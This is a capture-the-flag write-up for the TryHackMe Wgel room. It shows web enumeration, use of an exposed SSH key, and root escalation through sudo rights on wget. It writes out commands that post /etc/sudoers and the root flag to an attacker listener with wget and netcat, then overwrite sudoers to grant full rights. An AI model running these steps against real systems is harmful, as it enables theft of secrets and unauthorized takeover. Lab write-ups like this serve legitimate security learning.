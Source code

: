 # Wgel \(L\)

_TryHackMe_ – [**WgelCTF**](https://tryhackme.com/room/wgelctf) Write-Up

_topics_: web application security, Linux Privilege Escalation

1. **Plan**
2. **Enumeration**
3. **Local Privilege Escalation \(Exploitation\)**
4. **Root Privilege Escalation**

new tools: 

tools: nmapAutomator, dirsearch, ssh, python, sudo, wget

## 1\) Plan

We are provided a hint that wget will be necessary in escalating our privileges.

## 2\) Enumeration

following `./nmapAutomator.sh <ip> Basic`

![](.gitbook/assets/image%20%289%29.png)

And following `python3 dirsearch.py -u http://10.10.233.72/ -e php`

![](.gitbook/assets/image%20%2821%29.png)

So port 22 **\(ssh version 7.2p2**\) and port 80 \(**http** **Apache httpd 2.4.18**\) are open on the Ubuntu machine. We also have access to _/index.html,_ and ****_**/sitemap**_. There doesn't seem to be anything interesting on the default page. Lets enumerate the _**/sitemap**_ subdirectory more to check for potential attack vectors.

`python3 dirsearch.py -u http://10.10.233.72/sitemap -e php,html,txt`

![](.gitbook/assets/image%20%2834%29.png)

This additional enumeration of _**/sitemap**_ proves to be worth it, as numerous subdirectories are revealed including _**/.ssh**_ and _**/.ssh/id\_rsa**_ which is more than likely our way into the machine because we know that port 22 \(ssh\) is open. Lets inspect the contents to see 

![](.gitbook/assets/image%20%2845%29.png)

## 3\) Local Privilege Escalation

There is an **ssh id\_rsa key** in plaintext for us to login to the system. We simply need a username to ssh into. Lets recheck the source code of the website as well as _**/sitemap**_ to search for a potential username. 

![](.gitbook/assets/image%20%2840%29.png)

Seems like the admin made a crucial mistake in naming an employee, we can more than likely bet that jessie is the applicable username. Lets attempt to ssh into the machine:

`ssh -i id_rsa jessie@10.10.233.72`

![And we have local privilege escalation.](.gitbook/assets/image%20%2843%29.png)

## 4\) Root Privilege Escalation

First things first. Lets list the OS information and sudo privileges

`cat /etc/lsb-release`

`uname -a`

`sudo -l`

![](.gitbook/assets/image%20%2816%29.png)

We have an Ubuntu 16.04 system with **kernel 4.15.0** and _**/usr/bin/wget**_ has sudo privileges.

We could simply listen with `nc -nlvp 4445` and catch the root flag by running `sudo wget --post-file=/root/root_flag.txt 10.10.140.60:4445` on the victim. This would print the root flag but we want a reverse shell to be able to run whatever command we need.

In order to accomplish this, we must use the sudo privilege on wget in the most efficient way possible. Because we would be able to transfer any file to the attacker and send back with wget, why not simply send the sudoers file, edit it to include all users and send it back to the victim.

On attacking machine listen with netcat

`nc -nlvp 4445`

On victim machine send the sudoers file

`sudo wget --post-file=/etc/sudoers 10.10.140.60:4445`

Netcat will catch and print the file. Copy the contents, make a working directory and create a new file named sudoers, replacing`NOPASSWD: /usr/bin/wget` with `NOPASSWD: ALL`

On victim, `cd /etc` and download the new sudoers file

`sudo wget 10.10.140.60/files/sudoers --output-document=sudoers`

![pwned](.gitbook/assets/image%20%2836%29.png)

